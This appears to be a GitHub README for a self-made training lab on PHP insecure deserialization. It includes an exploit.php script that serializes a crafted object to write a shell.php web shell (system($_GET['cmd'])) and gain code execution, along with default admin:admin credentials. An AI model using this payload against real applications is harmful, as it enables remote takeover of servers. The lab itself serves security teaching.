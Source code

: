# InsecureDeserialization-lab2

### 1-Description
```
In this lab i have decided to create an exploitable app that use php serialize() / unserialize()
and the magic method __destruct() magic method which is called whenever an object is destroyed.
```
### 2-Ressoources
```
https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection

https://www.php.net/manual/en/function.unserialize.php

https://securitycafe.ro/2015/01/05/understanding-php-object-injection
```

### 3-SafeNote Kepper
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/bdf7e33f-2a43-4e4f-ad73-1024b353b22f)

Login as admin!!!
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/73adb498-d9cc-4448-9314-e0231bc63db6)

```
admin:admin
```
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/0117bedf-4dce-474a-ad74-b9e1dbde2d42)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/6552f369-ba38-464c-8037-d11a02118f8c)
Notes Endpoint!!!
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/4ddab522-b569-4425-92cf-83d2d44b6f38)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/a24a70e1-fbd0-48fa-9236-037b978a4bf3)
### 4-Vulnerability
```

```

### 5-Exploitation
exploit.php!!!
```php
<?php
class User{
    public $name = "admin";
    public $level = "";
    public $filename = "shell.php";
    public $message = "<?php system(\$_GET['cmd']); ?>";
}
//admin 
$admin = new User();
echo serialize($admin);
echo "\n";
$Token1 = base64_encode(serialize($admin));
echo $Token1;
?>
```
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/ee403d0c-f105-4679-9009-b83f0d708ab7)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/0eba3886-696c-48b6-97e0-31e6befc6c2d)
RCE!!!
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/07032ba2-6d44-4b86-abd9-c1837a1c4e6b)
### 6-Recommendations
```

```

### 7-Labs
```
Debug(Tryhackme)
```
